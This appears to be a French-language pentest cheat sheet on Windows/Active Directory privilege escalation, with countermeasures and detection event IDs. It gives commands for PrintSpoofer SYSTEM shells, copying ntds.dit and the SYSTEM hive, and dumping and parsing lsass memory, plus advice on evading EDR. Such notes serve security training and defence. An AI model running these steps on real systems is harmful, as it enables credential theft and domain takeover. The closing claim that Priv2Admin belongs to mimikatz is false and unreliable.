

## Contexte et Théorie

L'élévation de privilèges au sein d'un environnement Active Directory (AD) repose sur l'exploitation de droits mal configurés, de jetons d'accès ou de privilèges utilisateur (User Rights Assignments) attribués à des comptes de service ou des utilisateurs standards. Contrairement à l'exploitation de vulnérabilités logicielles (CVE), cette phase exploite la logique métier et les configurations par défaut de Windows.

> [!info]
> Les privilèges (User Rights) sont définis dans les GPO (Local Security Policy) et permettent à un utilisateur d'effectuer des actions spécifiques sur le système, indépendamment de son appartenance à un groupe de sécurité.

## Flux d'attaque



## Énumération des privilèges

La première étape consiste à identifier les privilèges actifs du jeton de l'utilisateur courant.

```powershell
whoami /priv
```

### Privilèges critiques pour l'élévation

*   **SeImpersonatePrivilege** : Permet d'emprunter l'identité d'un autre utilisateur (souvent SYSTEM).
*   **SeBackupPrivilege** : Permet de lire n'importe quel fichier sur le système, y compris les fichiers verrouillés (NTDS.dit, SAM).
*   **SeDebugPrivilege** : Permet d'attacher un débogueur à n'importe quel processus, facilitant l'injection de code ou le dumping mémoire.
*   **SeTakeOwnershipPrivilege** : Permet de s'approprier n'importe quel objet (fichiers, clés de registre).

## Exploitation de SeImpersonatePrivilege

Ce privilège est le plus courant sur les serveurs Windows. Il permet d'abuser du mécanisme d'authentification RPC/COM pour forcer un service SYSTEM à s'authentifier auprès d'un serveur local contrôlé par l'attaquant.

### Utilisation de PrintSpoofer

```bash
# Exécution via un shell interactif
.\PrintSpoofer.exe -c "cmd /c whoami"
# Obtenir un shell SYSTEM
.\PrintSpoofer.exe -c "powershell.exe -e <base64_payload>"
```

> [!danger]
> L'exécution de binaires non signés sur le disque déclenche systématiquement les solutions EDR/AV. Privilégier l'exécution en mémoire via `Invoke-ReflectivePEInjection` ou des techniques de chargement distant.

## Exploitation de SeBackupPrivilege

Ce privilège permet de contourner les permissions NTFS. Il est possible d'extraire les secrets du contrôleur de domaine ou les hashes locaux.

### Extraction du fichier NTDS.dit

1. Créer une copie du fichier via `diskshadow` ou `robocopy` avec les options de sauvegarde.
2. Utiliser `SeBackupPrivilegeCmdlets` pour extraire les fichiers.

```powershell
Import-Module .\SeBackupPrivilegeUtils.dll
Copy-FileSeBackupPrivilege C:\Windows\NTDS\ntds.dit C:\Temp\ntds.dit
Copy-FileSeBackupPrivilege C:\Windows\System32\config\SYSTEM C:\Temp\SYSTEM
```

> [!warning]
> Le fichier NTDS.dit est verrouillé par le processus LSASS. L'utilisation de `Copy-FileSeBackupPrivilege` est nécessaire car elle ignore les verrous d'accès au système de fichiers.

## Exploitation de SeDebugPrivilege

Avec ce privilège, l'attaquant peut injecter du code dans le processus `lsass.exe` pour extraire les credentials en clair ou les hashes NTLM.

### Dumping LSASS via ProcDump

```powershell
# Utilisation de l'outil légitime Microsoft pour dumper la mémoire
.\procdump.exe -ma lsass.exe lsass.dmp
```

Une fois le fichier `.dmp` récupéré, l'analyse s'effectue hors ligne avec `mimikatz` ou `pypykatz` :

```bash
pypykatz lsa minidump lsass.dmp
```

## Contre-mesures et OPSEC

### Durcissement (Hardening)
*   **Principe du moindre privilège** : Supprimer les privilèges inutiles des comptes de service.
*   **Group Policy** : Auditer les GPO "User Rights Assignment" pour restreindre les privilèges sensibles aux seuls administrateurs.
*   **Credential Guard** : Activer Windows Defender Credential Guard pour isoler LSASS dans un conteneur virtualisé, rendant le dumping mémoire inefficace.

### Surveillance (Detection)
*   **Event ID 4673** : Audit de l'utilisation de privilèges sensibles.
*   **Event ID 4624/4672** : Connexions avec des privilèges élevés.
*   **EDR Telemetry** : Surveiller les appels API `OpenProcess` avec les accès `PROCESS_ALL_ACCESS` ou `PROCESS_QUERY_INFORMATION` vers `lsass.exe`.

> [!tip]
> Pour tester la robustesse de l'environnement, utiliser `Priv2Admin` (un outil de la suite `mimikatz`) pour vérifier si les privilèges actuels permettent une escalade immédiate vers SYSTEM.